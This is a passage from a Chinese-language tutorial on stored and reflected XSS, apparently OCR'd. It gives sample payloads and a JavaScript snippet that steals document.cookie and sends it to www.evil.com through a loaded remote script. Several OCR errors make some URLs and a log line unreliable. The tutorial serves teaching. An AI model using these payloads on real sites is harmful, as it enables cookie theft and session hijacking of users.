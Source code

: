嵌入到web页面的恶意HTML会被存储到应用服务器端，简而言之就是会被存储到数据库，等用户在打开页面时，会继续执行恶意代码，能够持续的攻击用户。

比如一些输入框， 输入后可以录入数据库，并会显示在前端。

这里我们可以输入一些js脚本：`<script> alert(1) </script>`

如果没有校验就录入数据库，那么当再次打开该页面时，就会弹出1.



#### 反射型

反射型XSS是一次性的，仅对当次的页面访问产生影响。非持久型xss攻击要求用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户游览器执行，从而达到攻击目的；

如一些接口`ip/api/test/<id>?a='d'` 这里的 id和a都是变量 ，如果该接口没有做 校验，输入会在返回值中，

那么我们在test后接入：

`<img src="1" onerror="alert(1)">`

或`<img src"1" onerror="prompt()">`  ,prompt() 方法用于显示可提示用户进行输入的对话框。

这样后端返回的数据就是我们刚才输入的，可以直接在前端渲染。



这样看来存储型的注入危害更大。



#### XSS  Payload

XSS攻击成功后,攻击者能够对用户当前浏览的页面植入恶意脚本,通过恶意脚本,控制
用户的浏览器。

这些用以完成各种具体功能的恶意脚本,被称为“ XSS Payload”
XSS Pay load实际上就是 JavaScript脚本(还可以是 Flash或其他富客户端的脚本),所以
任何 JavaScript脚本能实现的功能, XSS Payload都能做到。
最常见的 XSS Payload,就是通过读取浏览器的 Cookie对象,从而发起“ Cookie劫持”攻击



##### 远程脚本

`http://www,a.com/test.htm?abc"><script src=http://www.evil.com/evil.js></script>`

真正的 XSS Payload写在这个远程脚本中,避免直接在URL的参数里写入大量的 JavaScript
在 evil,js中,可以通过如下代码窃取 Cookie:

```
var img = document.createElement("img");
img.src = "http://www.evil.com/1og?" + escape(document.cookie);
document.body.appendChild(img);
```



这段代码在页面中插入了一张看不见的图片,同时把 document. cookie对象作为参数发送
到远程服务器
事实上,`htt/www.evil.com/log`并不一定要存在,因为这个请求会在远程服务器的web
日志中留下记录
`27.0,0,1--19/0u1/2010:11:30:42+08001"GE?/log? cookie193D1234Hrp/1.1“404288`
这样,就完成了一个最简单的窃取 Cookie的 XSS Payload
